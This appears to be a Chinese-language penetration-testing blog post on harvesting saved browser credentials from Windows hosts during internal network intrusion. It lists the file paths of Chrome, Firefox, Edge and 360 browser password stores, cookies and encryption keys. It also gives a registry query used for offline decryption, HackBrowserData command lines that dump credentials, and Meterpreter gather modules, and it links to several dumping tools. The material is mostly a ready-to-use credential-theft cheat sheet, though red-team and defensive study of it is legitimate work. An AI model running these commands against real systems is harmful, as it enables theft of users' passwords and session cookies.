 # 内网渗透-Windows凭据收集之浏览器凭据(7)

  
  
&lt;!--more--&gt;  
## chrome  
`chrome`配置文件路径  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data/`  
`cookie`默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\Cookies`  
`History`默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\History`  
chrome的登录账号密码文件Login Data默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\Login Data`  
chrome中存储加密Key的默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Local State`  
查看版本及详细信息  
`chrome://version/`  
chromium  
```  
C:\Users\win10\AppData\Local\Chromium\User Data\  
C:\Users\win10\AppData\Local\Chromium\User Data\Local State  
```  
https://github.com/AlisterAmo/ChromePassDumper  
## Firefox  
`firefox`配置文件路径  
```  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-release*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-beta*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.dev-edition-default*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-nightly*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-esr*\  
```  
不同版本Firefox保存记录的文件名称不同，如下所示  
```  
Version大于等于32.0，保存记录的文件为logins.json  
Version大于等于3.5，小于32.0，保存记录的文件为signons.sqlite  
#凭据存储地址  
AppData\Roaming\Mozilla\Firefox\Profiles\随机字符.default-release\logins.json  
#密钥地址  
AppData\Roaming\Mozilla\Firefox\Profiles\随机字符.default-release\key4.db  
```  
注意：Master Passoword这个设置  
https://github.com/mishmashclone/Flangvik-SharpCollection/commit/46aa6d803e256fe56927e42f6da9e1f0a496e2f7  
ThunderFox.exe creds  
## 360   
360浏览器是基于Chromium 86内核开发的。  
360浏览器密码默认存储路径  
```  
360chrome C:\Users\win10\AppData\Local\360Chrome\Chrome\User Data\Default  
360浏览器 C:\Users\win10\AppData\Roaming\360se6\User Data\Default  
```  
360安全浏览器离线解密  
首先切到指定用户权限下，获取机器id，把assis2.db账密数据库文件拖回本地执行解密  
`reg query &#34;HKLM\SOFTWARE\MICROSOFT\CRYPTOGRAPHY&#34;/v&#34;MachineGuid&#34;`  
https://github.com/hayasec/360SafeBrowsergetpass  
## Edge  
```  
C:\Users\win10\AppData/Local/Microsoft/Edge/User Data/  
C:\Users\win10\AppData/Local/Microsoft/Edge/User Data/Local State  
```  
## 工具  
https://github.com/moonD4rk/HackBrowserData  
```  
#指定edge浏览器进行脱取其数据  
HackBrowserData.exe -b edge -p &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default&#39;  
  
#指定edge的key浏览器进行脱取其数据  
HackBrowserData.exe -b edge -p &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default&#39; -k &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Local State&#39;  
# 指定chrome浏览器进行脱取其数据  
HackBrowserData.exe -b chrome -p &#39;C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\Login Data&#39;  
#指定chrome的key浏览器进行脱取其数据  
HackBrowserData.exe -b chrome -p &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default&#39; -k &#39;C:\Users\win10\AppData\Local\Google\Chrome\User Data\Local State&#39;  
  
全局选项  
		--verbose --vv 详细(默认值:false)  
		--compress --cc 将结果压缩为zip(默认值:false)  
		--browser value,-b value 可用浏览器 all|opera|firefox|chrome|edge(默认值为:all)  
		--result-dir 值,--dir 值导出目录(默认值：&#34;结果&#34;)  
		--format 值，-f 值格式,csv|json|控制台  
		--profile-dir-path 值,-p 值自定义配置文件目录路径，使用chrome://version获取  
		--key-file-path 值,-k 值自定义密钥文件路径  
```  
https://github.com/QAX-A-Team/BrowserGhost  
## Meterpreter对于IE、Chrome、Firefox的不同收集模块  
```  
run post/windows/gather/enum_chrome #获取Chrome缓存  
run post/windows/gather/enum_firefox #获取Firefox缓存  
run post/windows/gather/enum_ie #获取IE缓存  
```  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8B%E6%B5%8F%E8%A7%88%E5%99%A8%E5%87%AD%E6%8D%AE7/  

